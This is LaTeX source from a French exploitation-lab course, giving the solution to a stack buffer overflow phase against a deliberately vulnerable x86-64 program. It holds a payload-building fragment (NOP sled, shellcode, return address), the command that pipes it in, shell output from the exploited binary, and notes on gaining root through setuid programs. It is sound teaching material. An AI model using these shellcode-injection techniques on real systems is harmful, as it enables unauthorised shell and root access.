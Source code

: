\documentclass[a4paper,11pt]{article}
\theoremstyle{plain}
\newtheorem{correction}{Correction}
\theoremstyle{definition}
\newtheorem{exercice}{Exercice}
\begin{document}
\begin{exercice}[Projet StackX64]
\begin{correction}
\begin{lstlisting}[style=CStyle,language=Python,title=exploit\_phase3.py]
payload = nop_sled + shellcode + addr_bytes
sys.stdout.buffer.write(payload)
\end{lstlisting}

\textbf{3c)} Exécution de l'exploit :
\begin{lstlisting}[style=GDBStyle]
$ (python3 exploit_phase3.py ; cat) | ./stackx64
=== StackX64 - Vulnerable Program ===
[DEBUG] main() is at address:            0x401216
[DEBUG] secret_function() is at address:  0x4011d6
[DEBUG] vulnerable_function() is at:      0x4011f6

[DEBUG] buffer is at address: 0x7fffffffde10
[DEBUG] Enter your input:
[DEBUG] You entered: (garbage)
whoami
etudiant
exit
\end{lstlisting}

\textbf{3d)} L'architecture x86-64 utilise l'ordre \textbf{little-endian} : l'octet de poids faible est stocké à l'adresse la plus basse.

Conversion de \texttt{0x7fffffffde10} en little-endian :
\begin{lstlisting}[style=GDBStyle]
0x7fffffffde10 --> \x10\xde\xff\xff\xff\x7f\x00\x00
\end{lstlisting}

\begin{pointcle}
\begin{itemize}
    \item L'injection de shellcode donne les \textbf{mêmes privilèges} que le programme vulnérable. Si le programme est \texttt{setuid root}, l'attaquant obtient un shell root.
    \item Le \texttt{; cat} après le script Python est essentiel : sans lui, \texttt{stdin} se ferme immédiatement et le shell ne peut pas recevoir de commandes.
    \item Les adresses dans GDB peuvent différer de quelques octets par rapport à l'exécution directe. Le NOP sled absorbe cette différence.
\end{itemize}
\end{pointcle}

\end{correction}



\subsection*{Phase 4 -- Protection NX et Return-to-libc \hfill\normalfont\textit{($\sim$35 min)}}


\end{exercice}
\end{document}
